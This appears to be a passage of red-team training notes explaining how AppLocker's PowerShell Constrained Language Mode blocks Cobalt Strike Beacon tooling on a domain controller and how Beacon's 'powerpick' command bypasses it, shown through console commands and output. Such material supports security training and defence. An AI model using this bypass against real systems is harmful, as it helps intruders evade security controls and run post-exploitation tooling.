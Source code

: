 When AppLocker is enabled PowerShell is placed into Constrained Language Mode (CLM), which restricts it to core types. `$ExecutionContext.SessionState.LanguageMode` will show the language mode of the executing process.

```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           9dd4aebc-540e-4683-b3f7-07b6f799266e ConstrainedLanguage
```
  

This makes most PowerShell tradecraft difficult. `jump winrm[64]` and other PowerShell scripts will fail with the error: **Cannot create type. Only core types are supported in this language mode.**

```
beacon> remote-exec winrm dc-1 [math]::Pow(2,10)

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">
```

CLM is as fragile as AppLocker, so any AppLocker bypass can result in CLM bypass. Beacon has a `powerpick` command, which is an "unmanaged" implementation of tapping into a PowerShell runspace, without using `powershell.exe`.

So if we find an AppLocker bypass rule in order to execute a Beacon, `powerpick` can be used to execute post-ex tooling outside of CLM. `powerpick` is also compatible with `powershell-import`.

```
beacon> run hostname
dc-1

beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

beacon> powershell [math]::Pow(2,10)
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Cannot invoke method. Method invocation is supported only on core types in this language mode._x000D__x000A_</S><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ [math]::Pow(2,10)_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>

beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage

beacon> powerpick [math]::Pow(2,10)
1024
```